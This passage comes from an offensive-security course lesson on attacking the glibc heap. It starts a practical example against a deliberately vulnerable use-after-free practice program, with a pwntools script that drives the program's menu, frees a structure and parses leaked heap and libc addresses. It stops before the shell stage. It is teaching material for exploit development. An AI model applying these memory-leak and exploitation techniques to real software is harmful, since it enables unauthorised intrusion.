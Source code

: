 Let's take everything we have learned up to this point and reinforce it with a practical example.

## Practical Example

[](https://github.com/comed-ian/offsec-fall-2024/blob/lesson8/8.%20Attacking%20the%20Heap%20(glibc%20%3C2.32).md#practical-example)

We'll put all of this together by actually popping a shell on the [[uaf]] example we saw earlier.

We already discussed the vulnerability in this program: the `delete` function frees memory but does not zero-out the global `u` structure, leading to a UAF. We leveraged this above by dumping memory on the heap, but to exploit the program we need to set up a `pwntools` solver to leverage the next stage.

It's always helpful to script functional components of the exploit, specifically interacting with each of the menu options so that we can easily call the option of choice while minimizing mistakes. The below code performs the same command-line interaction we did above to test the UAF, but this time it parses the dumped pointers. The pointers of interest here are a heap address in the `0x50` size tcache linked list and a glibc arena address for unsorted bins:

```python
from pwn import *

context.log_level = "DEBUG"
context.terminal = ["tmux", "splitw", "-h", "-f"]

p = gdb.debug("./uaf", '''
    b new
    continue
''')

def new(name, group, uid, gid, bio):
    p.sendline(b'1')
    __edit(name, group, uid, gid, bio)

def __edit(name, group, uid, gid, bio):
    p.recvuntil(b"name:\n")
    p.sendline(name)
    p.recvuntil(b"group:\n")
    p.sendline(group)
    p.recvuntil(b"uid:\n")
    p.sendline(str(uid).encode())
    p.recvuntil(b"gid:\n")
    p.sendline(str(gid).encode())
    p.recvuntil(b"bio:\n")
    p.sendline(bio)
    p.recvuntil(b" >")

def edit(name, group, uid, gid, bio):
    p.sendline(b'2')
    __edit(name, group, uid, gid, bio)

def _print():
    p.sendline(b'3')
    return p.recvuntil(b" >")

def delete():
    p.sendline(b'4')
    p.recvuntil(b" >")

p.recvuntil(b"> ")
new(b"ian", b"user", 1000, 1000, b"prof")
delete()
leak = _print()
heap_leak = leak[leak.find(b"User: ") + len(b"User: "):]
```